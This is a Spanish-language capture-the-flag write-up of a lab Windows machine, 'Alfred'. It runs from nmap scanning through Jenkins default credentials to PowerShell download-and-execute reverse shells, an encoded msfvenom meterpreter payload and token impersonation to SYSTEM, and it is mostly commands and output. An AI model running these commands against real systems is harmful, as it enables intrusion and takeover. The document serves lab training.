

# Alfred

Windows

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.187.139 -oG allPorts

PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127
8080/tcp open  http-proxy    syn-ack ttl 127
```

```bash
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).

3389/tcp open  tcpwrapped
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-06-29T10:49:57
|_Not valid after:  2025-12-29T10:49:57

8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:**windows**
```

### HTTP (80)


### HTTP (8080)

Credenciales por defecto `admin:admin`


## Exploit


Agregar la sigueinte linea de código

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.9.244.36:8282/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.9.244.36 -Port 1234
```

```bash
python3 -m http.server 8282 

nc -nvlp 1234  
```


```powersehll
PS C:\Users\bruce\Desktop> type user.txt
79007a09481963edf2e1321abd9ae2a0
```

## Privilege Escalation

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.244.36 LPORT=5555 -f exe -o revshell.exe   
```

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.244.36:8001/revshell.exe','revshell.exe')"
```


```bash
msfdb run                                                                                                   
[+] Starting database
```

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.9.244.36
LHOST => 10.9.244.36
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.9.244.36:5555 
```




```shell
PS C:\Users\bruce\Desktop> cd 'C:\Program Files (x86)\Jenkins\workspace\admin'
PS C:\Program Files (x86)\Jenkins\workspace\admin> 
```


```shell
Start-Process revshell.exe
```


```bash
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect
```


Flag: root.txt

```shell
type C:\Windows\System32\config\root.txt
```
